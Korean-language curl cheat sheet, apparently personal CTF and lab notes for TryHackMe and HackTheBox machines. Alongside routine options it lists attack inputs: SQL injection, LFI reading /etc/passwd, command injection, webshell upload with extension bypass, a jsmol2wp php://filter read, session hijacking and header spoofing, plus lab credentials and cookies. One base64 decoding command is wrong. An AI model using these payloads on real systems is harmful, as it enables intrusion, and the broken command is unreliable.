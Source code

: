 # curl - HTTP 요청 도구

## 기본 요청

```bash
curl http://target.com                # 기본 GET 요청 (출력: 터미널)
curl -o file.html http://target.com   # 파일로 저장
curl -s http://target.com             # 진행 바 숨김
curl -L http://target.com             # 리다이렉트 따라가기
curl -v http... # -v 는 항상 기본이다 생각하고 표시! 반드시 필요
```

## 디버깅/분석

```bash
curl -v http://target.com             # 모든 요청/응답 상세 표시 (필수)
curl -I http://target.com             # 헤더만 요청 (HEAD 메소드)
curl -i http://target.com             # 응답 본문과 헤더 함께 표시
curl -k https://target.com             # TLS 인증서 무시

# 리디렉션으로 파일 저장 후 base64 디코딩
# 자동으로 --data-urlencode 인코딩 -> <script>alert('XSS')</script> -> %3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E

curl "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/read=convert.base64-encode/resource=../../hello.php" > hello.b64
base64 --data-urlencode hello.b64 > hello.php
```

## 인증

```bash
curl -u user:pass http://target.com   # 기본 인증
curl -H "Authorization: Bearer eyJh..." http://target.com  # JWT/토큰

# 쿠키 관련
curl -c cookie.txt http://target.com        # 쿠키 저장
curl -b cookie.txt http://target.com        # 저장된 쿠키 사용
curl -b cookie.txt -c cookie.txt http://target.com  # 세션 유지

# cookie example (total 2)
Cookie: wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_45a7e4c82b517c5af328feabce4d0187=wpuser%7C1753668949%7CcPTwzE1cbFpF18C6ZZZnuwRE0D2eRXISGnrDPvbQcBv%7Cccf2b309c5881393194d94ea8fc1ff5c9b3a8324cfc1282e423f89ccc74ee070

# request with cookie
curl -i -L -H "Cookie: wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_45a7e4c82b517c5af328feabce4d0187=wpuser%7C1753668949%7CcPTwzE1cbFpF18C6ZZZnuwRE0D2eRXISGnrDPvbQcBv%7Cccf2b309c5881393194d94ea8fc1ff5c9b3a8324cfc1282e423f89ccc74ee070" -H "User-Agent: Mozilla/5.0" http://www.smol.thm/wp-admin/
```

## 데이터 전송

```bash
# POST form
# -d === --data
curl -X POST -d "user=admin&pass=secret" http://target.com/login.php

# login
curl -i -X POST "http://www.smol.thm/wp-login.php" -H "Content-Type: application/x-www-form-urlencoded" -H "User-Agent: Mozilla/5.0" --data "log=wpuser&pwd=kbLSF2Vop%23lw3rjDZ629*Z%25G&rememberme=forever&wp-submit=Log+In&redirect_to=http://www.smol.thm/wp-admin/" -c cookie.txt


# 파일 업로드
curl -F "file=@shell.php" -F "description=profile" http://target.com/upload.php

# JSON 전송
curl -X POST -H "Content-Type: application/json" \
    -d '{"username":"admin","password":"s3cr3t"}' \
    http://target.com/api/login
```

## 헤더 조작

```bash
# 사용자 에이전트 변경
curl -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)" http://target.com

# IP 스푸핑 시도
curl -H "X-Forwarded-For: 127.0.0.1" http://target.com
curl -H "X-Real-IP: 127.0.0.1" http://target.com
```

## 보안/프록시

```bash
curl -k https://target.com                       # SSL 인증서 검증 무시
curl -x http://127.0.0.1:8080 http://target.com  # HTTP 프록시 (Burp)
curl --socks5 127.0.0.1:9050 http://target.com   # SOCKS5 프록시 (Tor)
```

## 취약점 테스트

```bash
# SQL 인젝션
curl "http://target.com/search.php?id=1 OR 1=1--"

# LFI
curl "http://target.com/page.php?file=../../../etc/passwd"

# 명령어 인젝션
curl "http://target.com/ping.php?host=127.0.0.1;id"
```

# 파일 업로드 취약점 (확장자 우회)

curl -X POST -F "file=@webshell.php;filename=image.jpg;type=image/jpeg" http://target.com/upload
curl -F "file=@/경로/파일명" http://타겟IP/upload.php
`@`는 curl에서 파일 업로드할 때 로컬 파일임을 나타내는 표시입니다. `-F` 옵션과 함께 사용합니다.

````

### 인증 우회 및 세션 작업

```bash
# CSRF 토큰 추출 후 사용
TOKEN=$(curl -s -c cookie.txt http://target.com/form | grep -o 'csrf_token" value="[^"]*' | cut -d'"' -f3)
curl -b cookie.txt -d "csrf_token=$TOKEN&username=admin&password=password" http://target.com/login

# 쿠키 조작으로 세션 하이재킹
curl -b "sessionid=STOLEN_SESSION_VALUE" http://target.com/admin

# HTTP 기본 인증 테스트
curl -u admin:password http://target.com/admin
````

### 유용한 도구 조합

```bash
# URL 인코딩 (Python 활용)
curl "http://target.com/search?q=$(python3 -c "import urllib.parse; print(urllib.parse.quote('<script>alert(1)</script>'))")"

# Base64 인코딩 헤더 사용 (Basic Auth)
curl -H "Authorization: Basic $(echo -n 'admin:password' | base64)" http://target.com

# 404 오류 페이지 숨기기
curl -f http://target.com/admin || echo "페이지 없음"

# 응답에서 특정 정보 필터링
curl -s http://target.com | grep "flag"
```

### 실전 로그인 및 세션 유지 예시

```bash
# 로그인하여 세션 쿠키 저장
curl -c cookie.txt -X POST http://lookup.thm/login.php -d 'username=admin&password=password123' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8'

# 저장된 쿠키로 인증된 페이지 접근
curl -b cookie.txt http://lookup.thm/dashboard.php

#파일 다운로드
wget http://www.smol.thm:8080/wordpress.old.zip
# wget 없을 때 파일 다운로드
curl -O http://smol.thm:8080/wordpress.old.zip
```

# 로그인 쿠키 저장

curl -c cookie.txt -X POST http://grafana.planning.htb/login -H "Content-Type: application/json" -d '{"user":"admin","password":"0D5oT70Fq13EvB5r"}'

┌──(root㉿docker-desktop)-[/]
└─# curl -c cookie.txt -X POST http://grafana.planning.htb/login \
 -H "Content-Type: application/json" \
 -d '{"user":"admin","password":"0D5oT70Fq13EvB5r"}'

# Cookie File -> Netscape format 분석

grafana.planning.htb FALSE / FALSE 1755096838 grafana_session_expiry 1752505433
#HttpOnly_grafana.planning.htb FALSE / FALSE 1755096838 grafana_session 508ccc52bfc97942574a1cb84a726eb1

| 항목      | 설명                                                           |
| --------- | -------------------------------------------------------------- |
| 도메인    | `grafana.planning.htb` – 쿠키가 유효한 호스트                  |
| `FALSE`   | 이 쿠키가 서브도메인에 적용되는지 여부 (FALSE = 해당 도메인만) |
| 경로      | `/` – 쿠키가 유효한 경로                                       |
| Secure    | `FALSE` – HTTPS에서만 전송되는지 여부                          |
| 만료 시간 | `1755096838` (Unix timestamp) – 쿠키 만료 시각                 |
| 이름      | `grafana_session_expiry` 또는 `grafana_session`                |
| 값        | 예: `508ccc52bfc97942574a1cb84a726eb1`                         |
